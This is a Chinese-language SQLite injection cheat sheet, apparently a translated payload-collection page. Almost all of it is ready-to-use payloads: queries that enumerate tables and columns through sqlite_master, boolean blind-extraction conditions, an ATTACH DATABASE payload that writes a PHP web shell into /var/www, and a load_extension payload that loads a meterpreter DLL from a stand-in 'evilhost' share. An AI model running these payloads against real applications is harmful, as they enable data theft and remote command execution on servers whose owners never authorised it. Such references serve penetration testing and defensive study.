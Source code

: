 # SQLite 注入


## 以整数/字符串 为基础的 - 提取表名
```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## 以整数/字符串 为基础的 - 提取列名
```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

为了一个整洁的输出
```
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## 布尔 - 计算表的数量
```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## 布尔 - 列举表名
```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## 布尔 - 提取信息
```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## 远程命令执行 使用 SQLite 命令 - Attach Database（附加数据库）
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES (‘<?system($_GET[‘cmd’]); ?>’);--
```

## 远程命令执行 使用 SQLite 命令 - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
注释: 默认情况下该部分是无效的
## 感谢
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)
